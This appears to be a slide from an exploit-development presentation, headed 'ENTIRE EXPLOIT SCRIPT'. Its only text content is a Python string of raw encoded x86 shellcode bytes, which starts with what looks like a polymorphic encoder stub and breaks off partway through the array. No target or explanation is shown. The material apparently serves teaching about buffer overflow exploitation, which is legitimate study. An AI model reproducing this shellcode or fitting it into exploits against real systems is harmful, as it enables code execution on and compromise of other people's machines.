

# ENTIRE EXPLOIT SCRIPT
shellcode = ("\xbf\x5c\x2a\x11\xb3\xd9\xe5\xd9\x74\x24\xf4\x5d\x33\xc9"
             "\xb1\x56\x83\xc5\x04\x31\x7d\x0f\x03\x7d\x53\xc8\xe4\x4f"
             "\x83\x85\x07\xb0\x53\xf6\x8e\x55\x62\x24\xf4\x1e\xd6\xf8"
             "\x7e\x72\xda\x73\xd2\x67\x69\xf1\xfb\x88\xda\xbc\xdd\xa7"
             "\xdb\x70\xe2\x64\x1f\x12\x9e\x76\x73\xf4\x9f\xb8\x86\xf5"
             "\xd8\xa5\x68\xa7\xb1\xa2\xda\x58\xb5\xf7\xe6\x59\x19\x7c"
             "\x56\x22\x1c\x43\x22\x98\x1f\x94\x9a\x97\x68\x0c\x91\xf0"
             "\x48\x2d\x76\xe3\xb5\x64\xf3\xd0\x4e\x77\xd5\x28\xae\x49"
             "\x19\xe6\x91\x65\x94\xf6\xd6\x42\x46\x8d\x2c\xb1\xfb\x96"
             "\xf6\xcb\x27\x12\xeb\x6c\xac\x84\xcf\x8d\x61\x52\x9b\x82"
             "\xce\x10\xc3\x86\xd1\xf5\x7f\xb2\x5a\xf8\xaf\x32\x18\xdf"
             "\x6b\x1e\xfb\x7e\x2d\xfa\xaa\x7f\x2d\xa2\x13\xda\x25\x41"
             "\x40\x5c\x64\x0e\xa5\x53\x97\xce\xa1\xe4\xe4\xfc\x6e\x5f"
             "\x63\x4d\xe7\x79\x74\xb2\xd2\x3e\xea\x4d\xdc\x3e\x22\x8a"
             "\x88\x6e\x5c\x3b\xb0\xe4\x9c\xc4\x65\xaa\xcc\x6a\xd5\x0b"